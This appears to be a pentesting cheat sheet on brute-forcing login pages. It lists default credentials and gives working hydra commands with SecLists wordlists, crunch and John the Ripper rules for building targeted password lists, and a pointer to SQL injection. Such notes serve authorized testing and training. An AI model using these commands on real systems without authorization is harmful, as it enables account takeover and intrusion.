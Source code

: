 # brute forcing

- Try software default credentials
- Try the following usernames

```shell
admin
root
<software-name> (e.g. cms)
```

- Try the following passwords

```shell
root
password
```

- Brute force using most common credentials

```shell
cp /usr/share/seclists/Usernames/top-usernames-shortlist.txt users.txt
cp /usr/share/seclists/Passwords/darkweb2017-top100.txt passwords.txt
hydra -f -L users.txt -P passwords.txt $ip http-post-form "/login:username=^USER^&password=^PASS^:error message."
```
- Brute force using educated passwords. Create list using `crunch` or `john`.

```shell
crunch 9 9 -t "Fall202%^" -o crunch.txt
```

```shell
└─$ tail -n 2 /etc/john/john.conf
[List.Rules:a3cipher]
Az"[0-9][0-9]" ^[!@]

john --wordlist=words.txt --rules=a3cipher --stdout > passwords.txt
```
- Try SQL injection

